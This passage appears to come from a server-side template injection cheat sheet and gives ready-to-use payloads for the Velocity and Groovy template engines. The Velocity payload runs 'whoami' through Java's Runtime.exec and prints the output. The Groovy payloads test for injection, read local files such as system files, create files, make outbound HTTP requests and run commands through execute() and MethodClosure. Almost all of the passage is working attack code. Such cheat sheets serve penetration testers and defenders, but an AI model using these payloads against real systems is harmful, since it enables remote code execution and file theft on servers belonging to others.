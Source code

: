 
---

## Velocity

[Official website](https://velocity.apache.org/engine/1.7/user-guide.html)

> Velocity is a Java-based template engine. It permits web page designers to reference methods defined in Java code.

```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

---

## Groovy

[Official website](https://groovy-lang.org/)

### Groovy - Basic injection

Refer to [groovy-lang.org/syntax](https://groovy-lang.org/syntax.html) , but `${9*9}` is the basic injection.

### Groovy - Read File

```groovy
${String x = new File('c:/windows/notepad.exe').text}
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```

### Groovy - HTTP Request

```groovy
${"http://www.google.com".toURL().text}
${new URL("http://www.google.com").getText()}
```

### Groovy - Command Execution

```groovy
${"calc.exe".exec()}
${"calc.exe".execute()}
${this.evaluate("9*9") //(this is a Script class)}
${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
```
